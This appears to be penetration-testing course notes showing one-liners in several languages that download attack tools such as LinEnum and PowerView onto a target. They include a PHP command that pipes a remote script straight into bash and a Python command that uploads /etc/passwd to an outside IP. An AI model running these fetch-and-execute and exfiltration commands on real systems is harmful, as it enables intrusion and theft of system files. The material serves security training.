 # 💽 Transferring Files with Code

Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows. We can use on Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code.

**Python 2 - Download**

```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python 3 - Download**

```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

***

**PHP ->**

we will use the PHP [file\_get\_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file\_put\_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory.

```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php).

```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP download and pipe to bash ->**

```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Ruby - Download a File**

```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Perl - Download a File**

```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

***

**Javascript**

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Then, from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file ->

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

**VBScript**

**VBScript is a** Scripting language developed by Microsoft that is modeled on Visual Basic and installed on every microsoft windows since 98

We'll create a file called `wget.vbs` and save the following content:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

And use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

***

**Or using python**

```shell-session
python3 -m uploadserver 
```

and uploading the file:

```shell-session
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
